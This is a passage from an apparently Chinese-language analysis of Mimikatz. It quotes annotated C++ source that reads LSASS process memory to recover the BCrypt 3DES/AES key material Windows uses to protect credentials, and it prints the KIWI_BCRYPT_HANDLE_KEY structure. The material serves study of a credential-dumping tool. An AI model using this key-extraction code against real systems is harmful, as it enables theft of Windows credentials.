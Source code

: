 ```c++
                if(kull_m_memory_copy(&amp;aLocalMemory, aLsassMemory, sizeof(KIWI_BCRYPT_HANDLE_KEY)) &amp;&amp; hKey.tag == 'UUUR')
                {
                    // 将 KIWI_BCRYPT_HANDLE_KEY::key，也就是 KIWI_BCRYPT_KEY81 结构复制到 buffer 指向的内存中
                    aLocalMemory.address = buffer; aLsassMemory-&gt;address = hKey.key;
                    if(kull_m_memory_copy(&amp;aLocalMemory, aLsassMemory, taille) &amp;&amp; ((PKIWI_BCRYPT_KEY) buffer)-&gt;tag == 'MSSK') // same as 8
                    {
                        // buffer 加上 offset 到达 KIWI_BCRYPT_KEY::hardkey 的地址
                        pHardKey = (PKIWI_HARD_KEY) ((PBYTE) buffer + offset);
                        // 将 KIWI_HARD_KEY::data 复制到 aLocalMemory.address 指向的内存中
                        if(aLocalMemory.address = LocalAlloc(LPTR, pHardKey-&gt;cbSecret))
                        {
                            aLsassMemory-&gt;address = (PBYTE) hKey.key + offset + FIELD_OFFSET(KIWI_HARD_KEY, data);
                            if(kull_m_memory_copy(&amp;aLocalMemory, aLsassMemory, pHardKey-&gt;cbSecret))
                            {
                                __try
                                {
                                    // 通过 BCryptGenerateSymmetricKey 函数创建一个密钥对象
                                    status = NT_SUCCESS(BCryptGenerateSymmetricKey(pGenKey-&gt;hProvider, &amp;pGenKey-&gt;hKey, pGenKey-&gt;pKey, pGenKey-&gt;cbKey, (PUCHAR) aLocalMemory.address, pHardKey-&gt;cbSecret, 0));
                                }
                                __except(GetExceptionCode() == ERROR_DLL_NOT_FOUND){}
                            }
                            LocalFree(aLocalMemory.address);
                        }
                    }
                }
            }
        }
        LocalFree(buffer);
    }
    return status;
}
```

这里以获取 `h3DesKey` 为例，获取 `hAesKey` 的方法相同。首先通过 `kull_m_memory_copy()` 函数获取保存 `h3DesKey` 偏移量的那四个字节的值，并加到 `rip` 指令的地址上得到了 `h3DesKey` 变量的地址，然后再将 `h3DesKey` 变量复制到 `hKey` 指向的内存中。这里需要知道的 `h3DesKey` 变量是一个 `BCRYPT_KEY_HANDLE` 的句柄结构，由于句柄相当于指针的指针，因此该句柄中保存着存储密钥内容的那块内存的指针的指针，指向密钥的指针结构，可以在 Mimikatz 中找到了这个结构：

```c++
typedef struct _KIWI_BCRYPT_HANDLE_KEY {
    ULONG size;
    ULONG tag;  // 'UUUR'
    PVOID hAlgorithm;
    PKIWI_BCRYPT_KEY key;
    PVOID unk0;
} KIWI_BCRYPT_HANDLE_KEY, *PKIWI_BCRYPT_HANDLE_KEY;
```
